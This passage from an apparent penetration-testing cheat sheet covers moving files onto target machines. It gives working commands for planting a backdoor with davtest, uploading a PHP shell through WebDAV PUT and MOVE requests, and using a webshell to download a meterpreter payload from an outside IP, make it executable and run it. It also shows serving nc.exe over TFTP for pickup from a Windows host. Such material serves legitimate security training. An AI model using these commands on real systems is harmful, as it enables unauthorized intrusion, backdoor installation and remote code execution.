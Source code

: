       The file can be run using the following syntax:

      `C:\temp\cscript.exe webdl.vbs`

- Mounting File Shares

  - Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

- HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

    Also check : <https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/>

### Uploading Files

- SCP

        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

        scp localfile username@$ip:~/Folder/

        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~

- Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

        `davtest -move -sendbd auto -url http://$ip`

        <https://github.com/cldrn/davtest>

        You can also upload a file using the PUT method with the curl command:

        `curl -T 'leetshellz.txt' 'http://$ip'`

        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

- Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget <http://174.0.42.42:8000/dhn> -O
        /tmp/evil" <http://$ip/files/sh.php>  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        <http://$ip/files/sh.php>  
        curl -s --data "cmd=bash -c /tmp/evil" <http://$ip/files/sh.php>

- TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec>tftp -i $ip get nc.exe

- FTP  
        apt-get update && apt-get install pure-ftpd  

        \#!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/  
